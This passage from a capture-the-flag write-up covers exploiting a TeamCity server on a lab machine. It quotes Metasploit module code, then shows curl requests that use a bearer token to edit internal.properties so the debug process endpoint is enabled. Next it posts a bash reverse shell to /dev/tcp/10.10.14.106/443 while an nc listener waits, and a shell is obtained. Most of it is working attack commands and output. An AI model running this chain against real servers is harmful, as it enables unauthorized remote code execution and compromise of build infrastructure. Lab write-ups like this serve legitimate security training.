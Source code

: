 ```ruby
        'uri' => normalize_uri('/app/rest/debug/processes'),
        'uri_encode_mode' => 'hex-all', # we must encode all characters in the query param for the payload to work.
        'headers' => {
            'Authorization' => "Bearer #{token}",
            'Content-Type' => 'text/plain'
        },
        'vars_get' => vars_get
    )

    unless res&.code == 200
        fail_with(Failure::UnexpectedReply, 'Failed to execute arbitrary process.')
    end
    ensure
    print_status('Resetting the internal.properties settings...')

    unless modify_internal_properties(token, 'rest.debug.processes.enable', nil)
        fail_with(Failure::UnexpectedReply, 'Failed to modify the internal.properties config file.')
    end
end
```

Now that I understand it, I will start by modifying the internal.properties:

```bash
❯ curl -sS -i http://teamcity.runner.htb/admin/dataDir.html -H "Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.ejRFN1ptazlJQU5MZEFrSk9QY1B5V2dOWXpN.NWFlNTRkYjQtMDRhNS00NThlLWFhNDctZDgyOThmNWY0ZjZm" -X POST --data 'action=edit&fileName=config/internal.properties&content=rest.debug.processes.enable=true'
HTTP/1.1 200 
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 21 Aug 2024 17:33:11 GMT
Content-Type: text/plain
Content-Length: 0
Connection: keep-alive
TeamCity-Node-Id: MAIN_SERVER
Cache-Control: no-store
X-Content-Type-Options: nosniff
```

It seems to have worked. the only thing left is to start a nc listener and create the process that gives me a reverse shell:

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
```

```bash
❯ curl -sS -i 'http://teamcity.runner.htb/app/rest/debug/processes' -H "Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.X2RkS1ZKczMtdk03SHM3ZDRKdjFheF9OZHBN.YjA3NTUyZTEtM2YzNS00YjM1LTk2Y2ItNzkwODJmZmYxNmZl" -H "Content-Type: text/plain" -G --data-urlencode 'exePath=/bin/bash' --data-urlencode 'params=-c' --data-urlencode 'params=bash -i >& /dev/tcp/10.10.14.106/443 0>&1' -X POST
```

And I receive a shell as tcuser in a container:
